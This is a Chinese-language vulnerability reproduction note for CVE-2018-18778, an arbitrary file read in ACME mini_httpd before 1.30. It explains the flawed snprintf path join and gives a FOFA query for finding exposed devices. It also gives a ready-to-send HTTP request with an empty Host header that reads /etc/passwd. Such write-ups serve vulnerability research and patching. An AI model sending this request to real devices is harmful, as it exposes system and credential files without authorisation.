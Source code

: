 # ACME Mini_httpd 任意文件读取漏洞 CVE-2018-18778

## 漏洞描述

漏洞原因是由于没有过滤Http包头的特定字段，导致可以构造访问系统文件的路径，从而导致可访问任意文件，攻击者可以利用该漏洞读取设备的任意文件，这将严重威胁采用Mini_httpd的设备的安全性。

## 漏洞影响

```
ACME mini_httpd before 1.30
```

## FOFA

```
app="ACME-mini_httpd"
```

## 漏洞复现

指纹信息

![](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205251634254.png)

在mini_httpd开启虚拟主机模式的情况下，用户请求`http://HOST/FILE`将会访问到当前目录下的HOST/FILE文件。

当`HOST=example.com、FILE=index.html`的时候，上述语句结果为`example.com/index.html`，文件正常读取。

当`HOST为空、FILE=etc/passwd`的时候，上述语句结果为`/etc/passwd`。

```
(void) snprintf( vfile, sizeof(vfile), "%s/%s", req_hostname, f );
```

发送请求包, 置空 host

```
GET /etc/passwd HTTP/1.1
Host: 
Accept: text/plain, */*; q=0.01
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Content-Length: 0
Referer: http://192.168.0.144:8080/
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
x-requested-with: XMLHttpRequest
```

![](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205251635832.png)